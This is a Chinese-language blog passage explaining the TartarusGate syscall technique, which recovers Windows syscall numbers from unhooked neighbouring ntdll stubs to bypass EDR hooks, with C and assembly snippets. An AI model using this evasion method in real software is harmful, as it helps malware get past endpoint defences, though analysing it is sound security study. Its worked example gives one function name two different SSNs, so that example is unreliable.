因为要逆向分析一下太费时间了,所以我直接用网站上的图来说明实例了

比如NtAccessCheckByTypeResultListAndAuditAlarmByHandle函数的SSN在win10 20H2 的版本上SSN为**0x0066**

而NtAccessCheckByTypeResultListAndAuditAlarm函数的SSN在win10 20H2 的版本上SSN为**0x0064**

那么NtAccessCheckByTypeResultListAndAuditAlarm函数的SSN就很明显了,为**0x0065**



如果邻居也被Hook了,那么久检查邻居的邻居,并且以此类推

我们来看代码，TartarusGate相对于地狱之门最大的进步,就是可以从没有被Hook的邻居获取到自己需要的SSN

接下来我们来看代码，地狱之门和TartarusGate最大的区别就在这

第一部分 检查当前NT函数是否被HOOK

```
if (*((PBYTE)pFunctionAddress) == 0xe9) {
    for (WORD idx = 1; idx <= 500; idx++) {
```

然后第二部分就是正常获取当前NT函数的SSN

```
if (*((PBYTE)pFunctionAddress + idx * DOWN) == 0x4c
      && *((PBYTE)pFunctionAddress + 1 + idx * DOWN) == 0x8b
      && *((PBYTE)pFunctionAddress + 2 + idx * DOWN) == 0xd1
      && *((PBYTE)pFunctionAddress + 3 + idx * DOWN) == 0xb8
      && *((PBYTE)pFunctionAddress + 6 + idx * DOWN) == 0x00
      && *((PBYTE)pFunctionAddress + 7 + idx * DOWN) == 0x00) {
      BYTE high = *((PBYTE)pFunctionAddress + 5 + idx * DOWN);
      BYTE low = *((PBYTE)pFunctionAddress + 4 + idx * DOWN);
      pVxTableEntry->wSystemCall = (high << 8) | low - idx;
      
      return TRUE;
```

然后这里它又来了一个检测是不是被HOOK了

```
if (*((PBYTE)pFunctionAddress + 3) == 0xe9) {
```

这里是因为并不一定HOOK第一条汇编指令，后面几条也是可能的，所以这里又检测了一遍

然后第三部分开始就是 不同的地方了

如果上面没能正常获取到SSN那么会向上检测邻居地址是否被HOOK

#define UP -32 #define DOWN 32

为什么会是32个字节？

Windows API 函数通常是以特定的字节对齐方式存放的,所以要么就是32要么就是64

```
if (*((PBYTE)pFunctionAddress + idx * UP) == 0x4c
      && *((PBYTE)pFunctionAddress + 1 + idx * UP) == 0x8b
      && *((PBYTE)pFunctionAddress + 2 + idx * UP) == 0xd1
      && *((PBYTE)pFunctionAddress + 3 + idx * UP) == 0xb8
      && *((PBYTE)pFunctionAddress + 6 + idx * UP) == 0x00
      && *((PBYTE)pFunctionAddress + 7 + idx * UP) == 0x00) {
      BYTE high = *((PBYTE)pFunctionAddress + 5 + idx * UP);
      BYTE low = *((PBYTE)pFunctionAddress + 4 + idx * UP);
      pVxTableEntry->wSystemCall = (high << 8) | low + idx;
      
      return TRUE;
     }
```

第四部分就是向下检测了，代码几乎是完全一致的

```
if (*((PBYTE)pFunctionAddress + idx * DOWN) == 0x4c
      && *((PBYTE)pFunctionAddress + 1 + idx * DOWN) == 0x8b
      && *((PBYTE)pFunctionAddress + 2 + idx * DOWN) == 0xd1
      && *((PBYTE)pFunctionAddress + 3 + idx * DOWN) == 0xb8
      && *((PBYTE)pFunctionAddress + 6 + idx * DOWN) == 0x00
      && *((PBYTE)pFunctionAddress + 7 + idx * DOWN) == 0x00) {
      BYTE high = *((PBYTE)pFunctionAddress + 5 + idx * DOWN);
      BYTE low = *((PBYTE)pFunctionAddress + 4 + idx * DOWN);
      pVxTableEntry->wSystemCall = (high << 8) | low - idx;
      return TRUE;
     }
```

然后就是syscall的部分了,它做了一点nop用来混淆

```
; Hell's Gate
; Dynamic system call invocation 
; 
; by smelly__vx (@RtlMateusz) and am0nsec (@am0nsec)

.data
 wSystemCall DWORD 000h

.code 
 HellsGate PROC
  nop
  mov wSystemCall, 000h
  nop
  mov wSystemCall, ecx
  nop
  ret
 HellsGate ENDP

 HellDescent PROC
  nop
  mov rax, rcx
  nop
  mov r10, rax
  nop
  mov eax, wSystemCall
  nop
  syscall
  ret
 HellDescent ENDP
end
```

其余部分就是完全跟地狱之门一致的了

**总结**

该项目在地狱之门的基础上增加了检查前四个字节确定是否被 hook 的步骤，并且如果被 hook 尝 试查找邻居是否被 hook

如果没有则拿到SSN，在通过增减的办法来拿到我们需要调用函数的SSN
